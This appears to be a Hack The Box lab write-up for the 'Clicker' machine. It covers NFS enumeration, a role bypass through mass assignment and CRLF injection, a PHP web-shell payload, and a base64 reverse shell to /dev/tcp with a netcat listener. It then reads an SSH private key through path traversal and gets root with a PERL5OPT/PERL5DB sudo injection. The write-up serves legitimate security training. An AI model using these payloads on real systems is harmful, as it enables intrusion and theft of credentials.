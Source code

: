 # Clicker


![Homepage](/HTB/Clicker/Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

![Nmap](/HTB/Clicker/Screenshots/2023-12-19-11-27-30.png)

    rpcbind reveals that nfs is available and supporting older versions.

![rpcinfo](/HTB/Clicker/Screenshots/2023-12-19-11-13-47.png)

    Knowing this, mount the share

![showmounts](/HTB/Clicker/Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](/HTB/Clicker/Screenshots/2023-12-19-11-35-38.png)

    Move and unzip the contents of the backups and unmount as it's served it's purpose.

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

    We now posess the source code which will help in finding any vulnerabilities. 

![role](/HTB/Clicker/Screenshots/2023-12-19-11-42-05.png)

    We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:

![authentication.php](/HTB/Clicker/Screenshots/2023-12-19-11-44-47.png)

    To access `admin.php` we'll need to set our role to admin

![admin.php](/HTB/Clicker/Screenshots/2023-12-19-11-45-44.png)

    There's two ways to achieve that:
    - sql mass assignment
    - CRLF vulnerability

[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment
    
    role%3d'Admin',clicks=2000
    By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.

![mass assign](/HTB/Clicker/Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

    By adding %0a to `role` we can bypass the blacklist

![CRLF](/HTB/Clicker/Screenshots/2023-12-19-11-49-12.png)

    Now if we relog we should be able to access the admin panel

![Administration](/HTB/Clicker/Screenshots/2023-12-19-11-59-17.png)

![Administration content](/HTB/Clicker/Screenshots/2023-12-19-11-59-50.png)

![exports](/HTB/Clicker/Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](/HTB/Clicker/Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](/HTB/Clicker/Screenshots/2023-12-19-12-07-50.png)

    As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.

![php payload](/HTB/Clicker/Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

![command execution](/HTB/Clicker/Screenshots/2023-12-19-12-23-28.png)

    Now that we've tested that it's possible, time to get a reverseshell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

    send the payload:
    echo <your base64 string> | base64 -d | bash

![revshell](/HTB/Clicker/Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](/HTB/Clicker/Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](/HTB/Clicker/Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](/HTB/Clicker/Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](/HTB/Clicker/Screenshots/2023-12-19-13-02-55.png)

    by running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.

![Strace for execute_query 1](/HTB/Clicker/Screenshots/2023-12-19-13-04-31.png)

    we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](/HTB/Clicker/Screenshots/2023-12-19-13-10-24.png)

    It executes the same file as option 1 would. Let's try directory traversal.

![/etc/passwd/](/HTB/Clicker/Screenshots/2023-12-19-13-11-43.png)

    Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.

![id_rsa](/HTB/Clicker/Screenshots/2023-12-19-13-13-51.png)

    We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. 

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](/HTB/Clicker/Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](/HTB/Clicker/Screenshots/2023-12-19-13-19-41.png)

### Escalation to root

    Check for sudo -l to list all sudo priviledges 

![sudo -l](/HTB/Clicker/Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](/HTB/Clicker/Screenshots/2023-12-19-13-26-41.png)

    We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable.
    So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

    Essentially we're only interested in the payload:

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

    Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.

![euid=root](/HTB/Clicker/Screenshots/2023-12-19-13-41-23.png)

#### flag

![rootflag](/HTB/Clicker/Screenshots/2023-12-19-13-42-16.png)

![Pwnd](/HTB/Clicker/Screenshots/2023-12-19-13-45-08.png)

